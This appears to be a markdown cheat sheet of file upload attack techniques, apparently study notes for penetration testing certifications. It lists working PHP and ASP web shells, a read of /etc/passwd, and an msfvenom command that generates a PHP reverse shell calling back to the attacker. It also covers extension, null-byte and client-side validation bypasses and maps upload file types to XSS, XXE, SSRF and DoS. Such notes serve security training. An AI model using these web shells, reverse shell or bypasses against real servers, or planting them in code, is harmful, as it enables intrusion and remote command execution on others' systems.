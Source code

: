 # File Upload Attacks  

>[Burp Suite Certified Practitioner study notes on file upload bypass](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#file-uploads)  

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php echo file_get_contents('/etc/hostname'); ?>` | PHP script that executes to get the (hostname) on the back-end server [Arbitrary File Upload](https://academy.hackthebox.com/module/136/section/1260) |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<?php echo shell_exec($_GET[ "cmd" ]); ?>` | Alternative PHP Webshell using shell_exec function. |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| `/usr/share/seclists/Web-Shells` | List of webshells for frameworks such as: CFM,FuzzDB,JSP,Laudanum, Magento, PHP, Vtiger and WordPress. |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** | [Bypass the client-side file type validations](https://academy.hackthebox.com/module/136/section/1280) |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | [Blacklist Filters](https://academy.hackthebox.com/module/136/section/1288) Use Burp Suite intruder to upload a single file name with list possible extensions. Then use intruder again to perform GET request on all the files upload to identify PHP execution on target. |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** | [Whitelisting Extensions](https://academy.hackthebox.com/module/136/section/1289) |
| `shell.jpg.php` | Double Extension bypass example|
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

>Client side html code alter to allow file upload validation bypass by removing `validate()`, optional clearing the `onchange` and `accept` values.  

![uploads-client-side-html](/images/uploads-client-side-html.png)  


## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |